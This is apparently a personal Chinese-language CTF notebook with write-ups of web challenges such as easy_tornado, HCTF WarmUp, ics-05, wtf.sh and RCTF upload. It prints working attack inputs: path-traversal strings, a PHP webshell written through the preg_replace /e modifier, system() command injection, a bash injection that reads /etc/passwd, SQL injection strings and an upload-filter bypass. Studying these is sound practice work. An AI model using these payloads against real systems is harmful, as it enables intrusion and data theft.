




typora-root-url: WEB安全\dvwa_list


### TODO

- [ ] web/JS逆向	
  - [ ] https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4810	
    ref:	https://st98.github.io/diary/posts/2017-10-25-hacklu-ctf-2017.html


## 题目复现

### 护网杯 easy_tornado 1

> 题目镜像:https://buuoj.cn/challenges#easy_tornado

题面如下:



```markdown
# /flag.txt
flag in /fllllllllllllag

# /welcome.txt
render

# /hints.txt
md5(cookie_secret+md5(filename))
```

结合下图中的`hint`, 它告诉了我们`filehash`的生成方式, 那么咱们目的显然是`/fllllllllllllag`, 下一步是要获取`cookie_secret`,  再结合`render`(渲染)以及回显, 确定是`模板注入`



> **模板注入**
>
> 和常见Web注入(SQL注入等)的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。(web安全中的真理：永远不要相信用户的输入)
> ————————————————
> 版权声明：本文为CSDN博主「钞sir」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
> 原文链接：https://blog.csdn.net/qq_40827990/article/details/82940894

既然是模板注入, 那要回显哪一个信息呢,  在复现时的整个逻辑关系显得尤为重要. 结合关键字 `cookie_secret`和题目名, `google`搜索之: 锁定是`tornado`的模板, 在[此处](https://github.com/tornadoweb/tornado/blob/master/tornado/auth.py)阅读`tornado`的源码, 看到`auth.py`,  再结合下面两篇, 粗略确定最终的`payload`的格式

1. [tornado.web — RequestHandler and Application classes — Tornado 6.1.dev1 documentation](https://tornado.readthedocs.io/en/latest/web.html#tornado.web.RequestHandler.settings)
2. [Tornado小记 -- 模板中的Handler](https://www.cnblogs.com/bwangel23/p/4858870.html)



最终利用`cookie_secret`和`flag`的文件名生成出`filehash`,  完成.

**总结:** 是我第一次遇到`模板注入`的利用方式, 一开始还以为是`xss`, 但事后来看, 从刚刚引述模板注入的定义里, 也能看出来这条法则: `input is invalid`

ref:

```
1. [SSTI模板注入 - 简书](https://www.jianshu.com/p/aef2ae0498df)
```

2. [[2018护网杯-web部分题解](https://www.anquanke.com/post/id/161849)]( https://www.anquanke.com/post/id/161849)
3. [[护网杯-easy_tornado](https://blog.csdn.net/wyj_1216/article/details/83043627)](https://blog.csdn.net/wyj_1216/article/details/83043627)

### XCTF 4th-CyberEarth ics-07

### [HCTF 2018]WarmUp 1

```php+HTML
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {	
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //①page必须是字符
            //注意:当入参是`page=`时, 值为null
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;	
            }
            //②'$page必须在白名单[source,hint]中
            if (in_array($page, $whitelist)) {
                return true;	//1,无法满足, 因为想包含flag文件
            }
            //截取?之前的部分
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            //②"$_page必须在白名单中
            if (in_array($_page, $whitelist)) {
                return true;	//2,可以满足, 将`hint?`或者`source`放在前面即可
            }
	
            $_page = urldecode($page);
            //截取?之前的部分
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;	//3, 可以满足, 为了绕过第2处的?截取,需将`?`双编码为`%253f`
            }
            echo "you can't see it";
            return false;
        }
    }
	//满足三个条件后即可包含文件
    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])//
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> 
```

关键点便是绕过`emmm::checkFile($_REQUEST['file'])`这个函数的校验, 满足代码里面的2, 3两个点中的任意一点, 使其返回`true`即可.

**最终payload**

```http
file=hint.php?/../../../../../../../../ffffllllaaaagggg
file=hint.php%253f/../../../../../../../../ffffllllaaaagggg
12
```

ref:[phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）](https://www.cnblogs.com/leixiao-/p/10265150.html)

### NSCTF web2

```php
 <?php 
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws"; 

function encode($str){ 
    $_o=strrev($str); 
    // echo $_o; 
         
    for($_0=0;$_0<strlen($_o);$_0++){ 
        
        $_c=substr($_o,$_0,1); 
        $__=ord($_c)+1; 
        $_c=chr($__); 
        $_=$_.$_c;    
    }  
    return str_rot13(strrev(base64_encode($_))); 
} 

highlight_file(__FILE__); 
/* 
   逆向加密算法，解密$miwen就是flag 
*/ 
?>   
```

ref:[https://www.cnblogs.com/Mikasa-Ackerman/p/11199677.html](https://www.cnblogs.com/Mikasa-Ackerman/p/11199677.html)

### XCTF 4th-CyberEarth

 id可能有问题,扔到bp里爆破,2333的时候出flag.私以为这种工具流还挺好用...

​	 

### XCTF 4th-QCTF-2018 NewsCenter

  post型的注入,扔到sqlmap里,--data 'search'跑表, 看infomation_schema 最后有个fl4g列,完事儿

​	

### csaw-ctf-2016-quals

  看到about页面有使用到git, 那么试试有没有git泄露呢?访问/.git/目录,存在泄露,githack工具走起
  审计index.php的源代码,最终采用**代码注入**搞定,

​	

### tinyctf-2014-NaNNaNNaNNaN-Batman

  js代码,有乱码,需要整理一下,写成规范的函数形式,审计正则匹配,看到有长度限制,删除冗余部分,F12的console里调试一下,提交就可以了(其实可以把条件删除2333)

### unserialize3

反序列化, 解出的第一题,orz
__wakeup()函数是当php进行反序列化操作（unserialize）的时候自动调用该函数
** __wakeup()方法的绕过: **一个字符串或对象被序列化后，如果其属性被修改，则不会执行__wakeup()函数,在这里就用来可以绕过exit()

```
​```js
O:5:"test2":1:{s:4:"t"}
O:5:"Test2":1:{s:4:"test";s:18:"<?php%20phpinfo();?>";}
​```

ref:	https://www.jianshu.com/p/be6de8511cb9
ref:	https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/
```

​	

### RCTF-2015-upload

```
你以为是上传,其实是注入...二次注入,此题心态爆炸,搞明白是怎么fuzzing的(8明白)
第二种方法:	a'+conv(hex((selselectect mid((selselectect database()),1,6))),16,10)+'a.jpg
主要涉及conv函数,是convert-进制转换的意思
ref:	http://morecoder.com/article/1227148.html
ref:	https://blog.csdn.net/niexinming/article/details/49888893
```

### XCTF 4th-CyberEarth  ics-04 

  ```工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。```
  找到忘记密码界面,丢到bp里爆用户名,得到俩很可疑的账号

- 'or''='    
- admin'or''='

   (admin是我刚刚注册的)
  很明显是注入了, 看看有没有注入导致的万能密码. 加入bp爆一下密码,全部失败.
  找了下wp, 结果是在忘记密码输入用户名的界面存在sqli注入.  gg

### XCTF 4th-CyberEarth  ics-05

```
1. 进到index.php里面, 发现page参数可更改,而且会显示在页面中,看题意跟跟xss应该没关系
看wp说是*php伪协议*,即 php://   ,可用filter查看源码
/index.php?page=php://filter/read=convert.base64-encode/resource=
通读源码,大概意思:当x-forwarded-for为环回地址127时,进入管理页面.果断改包绕过
好了,然后是一个preg_replace正则替换, 想到/e 可以rce, 那么开动:

可以去看看php里的正则用法), 把其当做php执行, 我们就在dst 参数里放要执行的PHP 代码```

2. 有了rce, 下一步是找flag, 写入一句话, 菜刀连接之后,看到根目录/下面有个奇怪的文件夹,查看源码,稳健
3. payload***
  - 
- 查看源码	

- ```php+HTML
  /index.php?page=php://filter/read=convert.base64-encode/resource=index.php
  ```

- X-Forwarded-For:127.0.0.1

-	/index.php?pat=/uncle/e&rep=phpinfo()&sub=uncleabc 
	
-	写入一句话	
	
​```php
	/index.php?pat=/uncle/e&rep=fputs(fopen(index.php,w),%3C?php%20eval($_POST%5B%5Bpass%5D%5D)?%3E);0&sub=uncleabc
​```

	其实可以不用写入一句话的, 使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。
	
	```
	rep=system("cd+s3chahahaDir/flag+%26%26+ls") 
	```
	
	注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.
```

​		

### csaw-ctf-2016-quals-wtf.sh-150 

```
可以看到响应里有关键词* bash *, 那么猜测是跟linux命令或者路径有关联.
先分析,一共分析出几个挖掘点:	

1. /profile.wtf?user= 

2. /post.wtf?post=

3. /reply.wtf?post= 首先排除,因为没有地方用来回显内容
	丢进bp里fuzzing一波 /profile.wtf?user=/../../../../../%2a	
	
4. %2a(就是编码后的*)可以列出当前目录内容
`继续分析, 进到/profile.wtf?user=../../../../../../../../../%2a  可以看到  ==> users/../../../../../../../../../bin <== ==>`

哦, 是从users目录跳出去的, 可以推测会为每个用户在users目录里新建一个文件(夹), 为了防止恶意遍历还做了混淆(可浏览查证/profile.wtf?user=/../users/%2a)

通过post传入文件名参数,缺少过滤导致可用../回退到上级目录,确认存在directory travelsal
	
	最后, 已经确定是目录遍历的情况下, 在第2点里, 试着查看users目录下的内容, 看到admin及其cookie.
	记录下来token,退出后导入cookie即可(导入cookie方法可以百度,可以F12进console调,也可以用chrome插件EDITTHISCOOKIE)
	
	#### payload:
	
	1. 看到admin的cookie	/post.wtf?post=../users   登录进profile得到前一半flag.
		```Flag: xctf{cb49256d1ab48803149e5ec49d3c29ca}	```https://blog.cindemor.com/post/ctf-fairy-1.html
		
	2. 查看另一半flag的线索
		a. /profile.wtf?user=../%2a
		b. 初始化的代码	/spinup.sh
		c. 整个程序的源码 /wtf.sh 以及 /post.wtf?post=../../
		d. 列出users_lookup下的目录, /post.wtf?post=../users
		e. 注册恶意用户	
		
		```php
		${find,/,-iname,get_flag2}
		$/usr/bin/get_flag2
		$/usr/bin/get_flag2
		```
		
		提交含有目录穿越注入代码的回复:	`/reply.wtf?post=../users_lookup/sh.wtf%09`
		最终得到**神仙**  flag2```149e5ec49d3c29ca}```

```

### RCTF-2015 bug

```
看到cookie里面有个username, 内容很像md5, 那么破解一下, cmd5收费...行吧

```

```
123-82ed7a14920dd2db1b6657348656eaa5
root-46470eaadfc99c960cd23ddef3398daf
admin-4b9987ccafacb8d8fc08d22bbca797ba

```

原本是想改cookie绕过, 可是加密方式不知道. 最后还是重置密码那里进去抓包改的admin密码.
改xff为127, 进去看到注释`/index.php?module=filemanage&do=???`,跟进发现这么一句

```php+HTML
<script type="text/javascript">
	document.getElementById('cur').className = "cur";
</script>

```

filename怀疑是lfi或者命令注入, bp走一走, 这期间看了一下服务器环境, 待会儿有用:

```php
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26

```

看了下writeup, 原来是要进到upload上传界面(唉, 本菜思路不够活跃想不到).
上传的话, 测试了一下, 有以下反映:

- 上传了其他类型的文件(如jpg文件等) | You know what I want!
- 后缀或内容被waf拦截 | Something shows it is a php!
- 是php5后缀但内容里没有php木马 | It is not a really php file

那么步骤就清楚了, 如何它绕过php的识别, 上传php木马, 限制如下:

1. 要检测上传内容是否有php代码(并非简单检测文件头的幻数), 经过测试, 只要文件中含有`<?php xxxx ?>`语句, 就会被拦截,. 
2. 要检测Content-Type, 不能上传裸php文件
3. 后缀方面, php5可绕过 

最后, 用php的另一种写法绕过, 这也是php的两种常规写法之一(另外一种 <?php xxx ?>已被拦截,) 可参考 https://www.php.net/manual/zh/language.basic-syntax.phpmode.php

对了, 从PHP7开始，这种写法`<script language="php"> </script>`，已经不支持了
**payload**

```php+HTML
文件名改php5
<script language="php">phpinfo()</script>

```

### csaw-ctf-2016-quals  i-got-id-200

perl的代码审计, 主要是命令注入,  给我看蒙了, 贴一段dalao的wp

> 打开题目发现有三个连接。file是上传，猜测存在上传漏洞，之后是参考大佬的WP，贴过来。
>
> 其中点击Files会跳转到/cgi-bin/file.pl文件中进行执行。这里可以上传任何一个文件，然后会在下方打印出内容。那么我们猜测后台逻辑大概是这样的。

```
perl use strict; use warnings; use CGI;

my $cgi= CGI->new; if ( $cgi->upload( 'file' ) ) { my $file= $cgi->param( 'file' ); while ( <$file> ) { print "$_"; } } 

```

> 那么，这里就存在一个可以利用的地方，param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

```
/cgi-bin/file.pl?/etc/passwd

```

> 将参数写成这个，读取到了系统的文件。/etc/passwd是用来存储登陆用户信息的,

[](https://github.com/gwyxjtu/my_CTF_diary/blob/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/攻防世界题目/img/14.png)

> 这里再次使用bash来读取文件目录。payload：

```
 /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| 

```

[](https://github.com/gwyxjtu/my_CTF_diary/blob/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/攻防世界题目/img/15.png)

> 最后读取flag文件，拿到flag.

[](https://github.com/gwyxjtu/my_CTF_diary/blob/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/攻防世界题目/img/16.png)

ref:[i-got-id-200](https://github.com/gwyxjtu/my_CTF_diary/blob/a6f7260b54bd01682a2f1649b4eaabdb7d5dede6/攻防世界题目/README.md)

​	

# Tasks :: CyBRICS CTF 2019	

## Bitkoff Bank (Web, Easy, 50 pts)

挖矿,页面里有个js脚本,每隔一秒刷新一次



ref:[https://cybrics.net/tasks/bitkoff](https://cybrics.net/tasks/bitkoff)

ref:[https://cybrics.net/tasks/caesaref](https://cybrics.net/tasks/caesaref)
